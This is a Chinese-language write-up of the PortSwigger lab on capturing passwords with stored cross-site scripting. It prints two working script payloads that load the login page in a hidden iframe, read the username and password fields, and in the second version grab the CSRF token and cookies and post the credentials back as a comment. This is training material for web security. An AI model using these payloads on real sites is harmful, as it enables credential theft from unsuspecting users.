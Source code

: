 | Dimension | Description                                                                                                               |
| --------- | ------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/exploiting#exploiting-cross-site-scripting-to-capture-passwords |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords                              |

跟上一題的情況一樣，只是現在要改偷登入頁的帳密。這題原本的概念是，要把偷到的帳密送到自己架的 Server，但由於資安考量，PortSwigger 限制只能送到他們架的 Server（要花錢買 Burp Suite Professional），所以我們用比較危險的方式，把偷到的帳密透過留言系統顯示出來

1. 發現 Comment 欄位完全沒有防護，可以直接插入 `<script>`
2. 試試看用 `iframe` 載入登入頁，能不能拿到帳密

```html
<script>
  function onloadIframe() {
    const username = window.frames[0].document.querySelector(
      "input[name='username']",
    ).value;
    const password = window.frames[0].document.querySelector(
      "input[name='password']",
    ).value;
    console.log({ username, password });
  }
</script>
<iframe
  src="https://0a34009004a74700e417261e007f005f.web-security-academy.net/login"
  onload="onloadIframe()"
  style="display:none"
></iframe>
```

3. 把 `console.log` 改成發送留言，拿到的都是 `{"username":"","password":""}`

```html
<script>
  function onloadIframe() {
    const username = window.frames[0].document.querySelector(
      "input[name='username']",
    ).value;
    const password = window.frames[0].document.querySelector(
      "input[name='password']",
    ).value;
    const csrf = document.querySelector("input[name='csrf']").value;
    const cookie = document.cookie;
    fetch(
      "https://0a34009004a74700e417261e007f005f.web-security-academy.net/post/comment",
      {
        headers: {
          "content-type": "application/x-www-form-urlencoded",
        },
        body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
        method: "POST",
        mode: "cors",
        credentials: "include",
      },
    );
  }
</script>
<iframe
  src="https://0a34009004a74700e417261e007f005f.web-security-academy.net/login"
  onload="onloadIframe()"
  style="display:none"
></iframe>
```
